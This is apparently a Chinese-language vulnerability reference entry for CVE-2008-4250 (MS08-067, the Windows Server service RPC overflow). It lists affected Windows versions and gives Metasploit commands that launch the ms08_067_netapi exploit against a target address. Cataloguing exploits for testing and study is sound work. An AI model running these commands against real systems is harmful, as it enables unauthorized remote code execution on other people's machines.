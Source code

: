 ### CVE-2008-4250

#### 描述

Pre-Beta中的Server服务允许远程攻击者通过精心设计的RPC请求执行任意代码，该请求会在执行以下操作时触发溢出路径规范化。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2003 |                  |         |        |                    |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |
| Windows Xp          |                  |         |        |                    |

#### 利用方式

使用msf 测试系统Windows Server 2003 SP2 x86

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.14
run
```

![image-20200823143331505](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2008-4250_win2003_x86_msf.png)

#### 分析文章
- https://bbs.pediy.com/thread-251219.htm
- https://www.jianshu.com/p/d086eb1ab0a6